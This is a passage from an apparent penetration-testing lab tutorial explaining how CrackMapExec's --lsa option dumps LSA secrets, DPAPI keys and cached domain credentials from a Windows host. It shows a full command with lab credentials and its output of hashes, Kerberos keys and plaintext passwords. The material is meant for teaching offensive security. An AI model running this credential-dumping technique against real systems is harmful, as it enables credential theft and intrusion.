 NTLM authentication is supported for the SMB, WinRM , RDP, LDAP, and MSSQL protocols

***

## LSA Secrets/Cached Credentials

CrackMapExec comes with an option `--lsa`, which is ported from `impacket-secretsdump`, which performs various techniques to dump hashes from the remote machine without executing any agent. It dumps the `LSA Secrets` including the `Cached credentials`, the local machine key list, the [Data Protection API (DPAPI)](https://en.wikipedia.org/wiki/Data_Protection_API) keys, and service credentials.

`LSA Secrets` is a unique protected storage for critical data used by the Local Security Authority (LSA) in Windows. LSA is designed to manage a system's local security policy, audit, authenticate, log users onto the system, store private data, etc. Users' and systems' sensitive data is stored in secrets. [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API) keys are used to encrypt the data.

`Cached Credentials` are the credentials (cached domain records) stored inside the LSA when a user logs into a workstation or server.

### **Inspect LSA**

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' --lsa

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
SMB         10.129.204.133  445    MS01             [+] Dumping LSA secrets
SMB         10.129.204.133  445    MS01             INLANEFREIGHT.HTB/julio:$DCC2$10240#julio#c2139497f24725b345aa1e23352481f3
SMB         10.129.204.133  445    MS01             INLANEFREIGHT.HTB/david:$DCC2$10240#david#a8338587a1c6ee53624372572e39b93f
SMB         10.129.204.133  445    MS01             INLANEFREIGHT.HTB/john:$DCC2$10240#john#fbdeac2c1d121818f75796cedd0caf0a
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\MS01$:aes256-cts-hmac-sha1-96:86e98ff8d71ffea8888277605546ff2b8475cc112d81b2a9c3000bb993fa630f
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\MS01$:aes128-cts-hmac-sha1-96:350bd90fcadae4e9d7e7dca40f82d316
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\MS01$:des-cbc-md5:ba234ae034f14c67
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\MS01$:plain_password_hex:2f671b061503c93e6b673[SNIP]
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\MS01$:aad3b435b51404eeaad3b435b51404ee:7a09b4655244f2a10ceecf16e7fcdc03:::
SMB         10.129.204.133  445    MS01             dpapi_machinekey:0x78f7020d08fa61b3b77b24130b1ecd58f53dd338
dpapi_userkey:0x4c0d8465c338406d54a1ae09a56223e867907f39
SMB         10.129.204.133  445    MS01             NL$KM:a2529d310bb71c7545d64b76412dd321c65cdd0424d307ffca5cf4e5a03894149164fac791d20e027ad65253b4f4a96f58ca7600dd39017dc5f78f4bab1edc63
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\julio:Password1
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\david:Password2
SMB         10.129.204.133  445    MS01             INLANEFREIGHT\john:Password3
SMB         10.129.204.133  445    MS01             [+] Dumped 13 LSA secrets to /home/plaintext/.cme/logs/MS01_10.129.204.133_2022-11-08_093944.secrets and /home/plaintext/.cme/logs/MS01_10.129.204.133_2022-11-08_093944.cached
```

